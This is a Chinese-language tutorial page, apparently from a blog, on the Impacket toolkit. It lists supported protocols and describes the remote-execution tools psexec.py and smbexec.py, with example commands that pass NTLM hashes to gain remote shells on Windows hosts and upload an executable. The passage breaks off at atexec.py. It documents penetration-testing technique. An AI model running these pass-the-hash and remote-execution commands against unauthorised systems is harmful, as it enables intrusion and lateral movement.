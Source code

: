 - 以太网，Linux“Cooked”数据包捕获
- IP，TCP，UDP，ICMP，IGMP，ARP
- 支持IPv4和IPv6
- NMB和SMB1，SMB2和SMB3（高级实现）
- MSRPC版本5，通过不同的传输协议：TCP，SMB / TCP，SMB/NetBIOS和HTTP
- 使用密码/哈希/票据/密钥进行简单的NTLM和Kerberos身份验证
- 部分或完全实现以下MSRPC接口：EPM，DTYPES，LSAD，LSAT，NRPC，RRP，SAMR，SRVS，WKST，SCMR，BKRP，DHCPM，EVEN6，MGMT，SASEC，TSCH，DCOM，WMI
- 部分TDS（MSSQL）和LDAP协议实现。







## 包含的工具

![查看](http://image.xpshuai.cn/2022-05-09-113402.png)



### 远程执行

- psexec.py:类似PSEXEC的功能示例，使用remcomsvc（https://github.com/kavika13/remcom）Psexec.py允许你在远程Windows系统上执行进程，复制文件，并返回处理输出结果。此外，它还允许你直接使用完整的交互式控制台执行远程shell命令（不需要安装任何客户端软件）。

  ```bash
  # 语法: ./psexec.py [[domain/] username [: password] @] [Target IP Address]
  ./psexec.py SERVER/Administrator: T00r@192.168.1.140
  
  
  /psexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@172.16.99.146
  
  ./psexec.py -hashes :7ce21f17c0aee7fb9ceba532d0546ad6 test/administrator@192.168.124.136 -c /root/1.exe
  
  ```

  

- smbexec.py：与使用remcomsvc的psexec w/o类似的方法。这里描述了该技术。我们的实现更进一步，实例化本地smbserver以接收命令的输出。这在目标计算机没有可写共享可用的情况下很有用。

  ```bash
  # smbexec
  ./smbexec.py test/administrator@192.168.23.99 -hashes aad3b435b51404eeaad3b435b51404ee:3dbde697d71690a769204beb12283678 #左面是lm-hash，右边是nt-hash，lmhash可以为空
  
  ./smbexec.py -hashes :3dbde697d71690a769204beb12283678 test/administrator@192.168.23.99
  
  ./smbexec.py test/administrator:123@192.168.23.99
  
  ```

  

- atexec.py：此示例通过Task Scheduler服务在目标计算机上执行命令，并返回已执行命令的输出。
